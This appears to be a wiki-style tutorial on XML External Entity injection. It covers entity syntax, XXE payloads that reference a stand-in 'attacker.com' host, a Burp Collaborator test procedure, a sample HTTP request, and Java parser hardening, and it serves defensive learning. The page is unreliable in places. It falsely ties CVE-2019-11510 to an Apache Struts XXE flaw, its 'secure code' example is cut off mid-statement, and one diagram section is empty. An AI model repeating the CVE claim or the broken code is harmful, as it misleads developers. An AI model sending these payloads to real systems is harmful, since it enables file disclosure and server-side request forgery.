

## XML External Entity Injection (XXE)

### Introduction to XML External Entity Injection

XML External Entity Injection (XXE) is a type of attack against an application that parses XML input. This attack occurs when an application improperly processes user-supplied XML data, allowing an attacker to inject malicious XML entities. These entities can reference external resources, leading to various security issues such as information disclosure, denial of service, server-side request forgery (SSRF), and remote code execution.

### Understanding XML Entities

An XML entity is a named unit of data that can be referenced within an XML document. Entities are defined using the `<!ENTITY>` declaration. For example:

```xml
<!DOCTYPE root [
  <!ENTITY example "Hello, World!">
]>
<root>
  <message>&example;</message>
</root>
```

In this example, the entity `&example;` is replaced with the string "Hello, World!" when the XML document is parsed.

### Vulnerable XML Parsing Scenarios

XML parsers can be vulnerable to XXE attacks if they allow the inclusion of external entities. An attacker can exploit this by injecting malicious XML data that references external entities. Here’s an example of how an attacker might craft an XML payload to exploit an XXE vulnerability:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://attacker.com/evil.xml" >
]>
<foo>&xxe;</foo>
```

In this payload, the `SYSTEM` keyword indicates that the entity should be resolved from an external URL. If the XML parser is configured to resolve external entities, it will attempt to fetch the content from `http://attacker.com/evil.xml`.

### Real-World Example: CVE-2019-11510

A notable real-world example of an XXE vulnerability is CVE-2019-11510, which affected the Apache Struts framework. In this case, the vulnerability allowed attackers to perform SSRF attacks by injecting malicious XML payloads into the application. The vulnerability was exploited through the `Content-Type` header, which could be manipulated to trigger the parsing of XML data.

### Testing for XXE Vulnerabilities

To test for XXE vulnerabilities, you can use tools like Burp Suite, which provides a Collaborator feature to detect external entity resolution. Here’s a step-by-step guide on how to test for XXE vulnerabilities using Burp Suite:

1. **Set Up Burp Suite**: Start Burp Suite and configure it to intercept HTTP traffic.
2. **Inject Malicious XML Payload**: Craft an XML payload that references a Burp Collaborator server. For example:

    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://collaborator.server/" >
    ]>
    <foo>&xxe;</foo>
    ```

3. **Send the Request**: Send the crafted XML payload to the target application via Burp Suite.
4. **Monitor Collaborator Server**: Check the Burp Collaborator server to see if the external entity was resolved. If the server receives a request, it indicates that the application is vulnerable to XXE.

### Example HTTP Request and Response

Here’s an example of an HTTP request and response involving an XXE attack:

#### HTTP Request

```http
POST /api/resource HTTP/1.1
Host: example.com
Content-Type: application/xml

<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://attacker.com/evil.xml" >
]>
<foo>&xxe;</foo>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
```

In this example, the application responds with a 200 OK status, but the actual behavior depends on how the application handles the XML data.

### How to Prevent / Defend Against XXE

#### Secure Coding Practices

1. **Disable External Entity Resolution**: Ensure that the XML parser is configured to disable external entity resolution. This can be done by setting the appropriate configuration options in the parser library.

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

2. **Use Safe Libraries**: Use libraries that are designed to handle XML securely. For example, the `javax.xml.parsers.DocumentBuilder` class in Java provides methods to disable external entity resolution.

#### Detection and Monitoring

1. **Static Code Analysis**: Use static code analysis tools to identify potential XXE vulnerabilities in your codebase. Tools like SonarQube, Fortify, and Checkmarx can help detect insecure XML parsing practices.

2. **Dynamic Application Security Testing (DAST)**: Use DAST tools like Burp Suite, OWASP ZAP, and Acunetix to test your application for XXE vulnerabilities. These tools can simulate attacks and detect if the application is vulnerable.

#### Configuration Hardening

1. **Web Server Configuration**: Configure your web server to restrict access to sensitive files and directories. For example, ensure that the web server does not serve files outside the document root.

2. **Firewall Rules**: Implement firewall rules to block outgoing requests to unauthorized domains. This can prevent SSRF attacks that may be triggered by XXE vulnerabilities.

### Example of Secure vs. Vulnerable Code

#### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

#### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = d
```

### Hands-On Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and labs to practice XXE exploitation.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE vulnerabilities among other security issues.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including XXE, for educational purposes.

### Conclusion

Understanding and preventing XML External Entity Injection (XXE) is crucial for securing applications that parse XML data. By disabling external entity resolution, using secure coding practices, and implementing proper monitoring and hardening measures, you can significantly reduce the risk of XXE attacks. Regularly testing your application for vulnerabilities and staying updated with the latest security practices will help ensure the security of your XML-parsing components.

### Mermaid Diagrams

#### Attack Chain Diagram

```mermaid
sequenceDiagram
  participant Attacker
  participant Application
  participant XMLParser
  participant ExternalResource

  Attacker->>Application: Send XML payload with &lt;!ENTITY&gt;
  Application->>XMLParser: Parse XML data
  XMLParser-->>ExternalResource: Resolve external entity
  ExternalResource-->>XMLParser: Return data
  XMLParser-->>Application: Process data
  Application-->>Attacker: Respond
```

#### Network Topology Diagram



By thoroughly understanding and implementing these preventive measures, you can effectively mitigate the risks associated with XXE vulnerabilities.

---
<!-- nav -->
[[01-XML External Entity Injection (XXE) in APIs|XML External Entity Injection (XXE) in APIs]] | [[API Security/22-Offensive XXE Exploitation/15-XML External Entity Injection in API Part 2/00-Overview|Overview]] | [[03-XML External Entity Injection in API Part 2|XML External Entity Injection in API Part 2]]
